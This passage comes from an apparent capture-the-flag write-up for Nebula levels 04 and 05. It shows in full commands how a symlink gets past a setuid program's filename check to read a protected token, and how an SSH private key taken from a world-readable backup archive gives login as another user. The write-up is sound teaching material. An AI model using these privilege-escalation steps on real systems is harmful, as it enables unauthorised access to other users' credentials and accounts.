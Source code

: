 From the snippet we can see that a check is in place for the first argument to see if the string `token` exists in it. As the token we want to read is actually called *token* this check will obviously prevent us from reading it. As we also don’t have write access to the file we cant rename it either. We can however make a symlink to it with a different name, thereby circumventing this check.

So, to solve level04:

```bash
level04@nebula:/home/flag04$ ln -s /home/flag04/token /var/tmp/flag04
level04@nebula:/home/flag04$ ./flag04 /var/tmp/flag04
06508b5e-8909-4f38-b630-fdb148a848a2

level04@nebula:/home/flag04$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## level05

[Level05's Description](https://exploit-exercises.com/nebula/level05/):
{% blockquote %}
Check the flag05 home directory. You are looking for weak directory permissions
{% endblockquote %}

Browsing to the `flag05` directory we can see a `.backup` directory containing a tar archive that is readable. This archive contained a private key that allowed login as the `flag05` user.

So, to solve level05:

```bash
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -lah
total 5.0K
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     220 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ ls -lah
total 2.0K
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1.8K 2011-11-20 20:13 backup-19072011.tgz

level05@nebula:/home/flag05/.backup$ tar -xvf backup-19072011.tgz -C /var/tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

level05@nebula:/home/flag05/.backup$ ssh -i /var/tmp/.ssh/id_rsa flag05@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.

[...]

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
